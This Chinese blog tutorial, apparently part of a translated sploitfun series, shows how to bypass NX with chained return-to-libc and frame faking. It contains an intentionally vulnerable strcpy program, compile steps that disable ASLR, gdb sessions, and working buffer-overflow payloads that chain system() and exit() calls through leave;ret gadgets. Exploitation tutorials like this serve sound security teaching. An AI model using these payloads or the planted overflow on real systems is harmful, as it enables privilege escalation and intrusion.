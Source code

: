 ```yaml
---
layout: post
title: 通过chained return-to-libc绕过NX
excerpt: "sploitfun系列教程之2.2 chained return-to-libc"
categories: [sploitfun系列教程]
comments: true
---
```


漏洞代码
```c
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */
 strcpy(buf,argv[1]);
 printf("%s",buf);
 fflush(stdout);
 return 0;
}
```
编译
```
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -fno-stack-protector -g -o vuln vuln.c -m32
chmod 777 vuln
```
现在我们面临两个问题

- libc地址和参数需要以特定的结构叠放在栈空间，多个libc地址和参数无法同时叠放在一起
- seteuid_arg这个参数值应该是0，但是strcpy()函数的特性，不会讲`\x00`之后的参数拷贝到栈中

为了解决第一个问题我们使用了这两个技术
1. ESP Lifting
2. Frame Faking

#### 什么是Frame Faking?
Frame Faking不是使用libc函数地址（本例中为seteuid）直接覆盖返回地址，而是使用`leave ret`指令来覆盖它。这样避免了参数的重叠，使多个function及参数值的叠放成为了可能，首先我们看一下需要构造的栈空间的结构
![Image text](https://raw.githubusercontent.com/snappyJack/snappyjack.github.io/master/img/chanined-return-to-libc.png)

leave指令
```
mov esp,ebp            //esp = ebp
pop ebp                //ebp = *esp
```
ret指令 :  `pop eip`

main函数中的最后两条指令
```shell
(gdb) disassemble main
Dump of assembler code for function main:
  ...
  0x0804851c <+88>: leave                  //mov ebp, esp; pop ebp;
  0x0804851d <+89>: ret                    //return
End of assembler dump.
(gdb)
```
Before main’s epilogue executed, as shown in the above stack layout, attacker would have overflown the buffer and would have overwritten, main’s ebp with fake_ebp0 (0xbffff204) and return address with “leave ret” instruction address (0x0804851c). Now when CPU is about to execute main’s epilogue,  EIP points to text address 0x0804851c (“leave ret”). On execution, following happens:

- leave’ changes following registers
	- esp = ebp = 0xbffff1f8
	- ebp = 0xbffff204, esp = 0xbffff1fc
- ‘ret’ executes “leave ret” instruction (located at stack address 0xbffff1fc) .

seteuid: Now again EIP points to text address 0x0804851c (“leave ret”). On execution, following happens:

- ‘leave’ changes following registers
	- esp = ebp = 0xbffff204
	- ebp = 0xbffff214, esp =0xbffff208
- ‘ret’ executes seteuid() (located at stack address 0xbffff208). To invoke seteuid successfully, seteuid_arg should be placed at offset 8 from seteuid_addr ie) at stack address 0xbffff210
- After seteuid() gets invoked, “leave ret” instruction (located at stack address 0xbffff20c), gets executed.

这样我们的程序就可以实现多个函数调用了

第二个问题，seteuid_arg应为零。如何在堆栈地址0xbffff210写入0？There is a simple solution to it, which is discussed by nergal in the same article. While chaining libc functions, first few calls should be strcpy which copies a NULL byte into seteuid_arg’s stack location.

NOTE: But unfortunately in my libc.so.6 strcpy’s function address is 0xb7ea6200 – ie) libc function address itself contains a NULL byte (bad character!!). Hence strcpy cant be used to successfully exploit the vulnerable code. sprintf (whose function address is 0xb7e6e8d0) is used as a replacement for strcpy ie) using sprintf NULL byte is copied in to seteuid_arg’s stack location.

Thus following libc functions are chained to solve the above two problems and to successfully obtain root shell:
```
sprintf | sprintf | sprintf | sprintf | seteuid | system | exit
```

----

#### 编写exp

确定offset
```shell
gdb-peda$ r `python -c 'print "A"*268+"B"*4'`
...
...
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
查看buf地址
```
gdb-peda$ p &buf
$2 = (char (*)[256]) 0xffffd430
```
找到return address地址为`0xffffd53c`
```shell
gdb-peda$ x/100wx 0xffffd430
0xffffd430:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd440:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd450:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd460:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd470:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd480:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd490:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd500:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd510:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd520:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd530:	0x41414141	0x41414141	0x41414141	0x42424242
0xffffd540:	0x00000000	0xffffd5d4	0xffffd5e0	0xf7fd86b0
```
通过`more /proc/1745/maps`查看libc基地址

通过`readelf -s /usr/lib/libc-2.17.so |grep system`查看offset

通过`objdump -s vuln | less`查找字符串地址

使用`ROPgadget --binary vuln | less`查找代码片段

搭建好一个function的exp(运行time命令)`aaa | system address | exit address | args:time`
```shell
./vuln `python -c 'print "A"*268+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp澉燝泖吟圜user	0m0.00s
sys	0m0.00s
```
通过`leave;ret`实现的运行一个function的exp(运行time命令)`fake ebp0 | system address | exit address | args:time | "A"*248 | fake ebp0的地址 | leave_ret `
```shell
gdb vuln
gdb-peda$ r `python -c 'print "\xa0\x47\xe3\xf7"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*248+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
```
通过`leave;ret`实现的运行多个(两个)function的exp`fake ebp0(指向fake ebp1) | system addr | leave_ret | system_arg:time | fake ebp1 | system addr | exit addr | system_arg:time | "A"*232 | fake ebp0的地址 | leave_ret `
```shell
gdb vuln
gdb-peda$ r `python -c 'print "\x40\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\x68\x84\x04\x08"+"\xd2\xf7\xe0\xf7"+"\x50\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*232+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
```
结果看到，运行了两个function
```
gdb-peda$ r `python -c 'print "\x40\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\x68\x84\x04\x08"+"\xd2\xf7\xe0\xf7"+"\x50\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*232+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
Starting program: /root/sploitfun/vuln `python -c 'print "\x40\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\x68\x84\x04\x08"+"\xd2\xf7\xe0\xf7"+"\x50\xd4\xff\xff"+"\x70\x0f\xe4\xf7"+"\xa0\x47\xe3\xf7"+"\xd2\xf7\xe0\xf7"+"A"*232+"\x30\xd4\xff\xff"+"\x68\x84\x04\x08"'`
吟圜[New process 17599]
process 17599 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
user	0m0.00s
sys	0m0.00s
[Inferior 2 (process 17599) exited normally]
user	0m0.00s
sys	0m0.00s
Warning: not running
Missing separate debuginfos, use: debuginfo-install bash-4.2.46-33.el7.x86_64
```

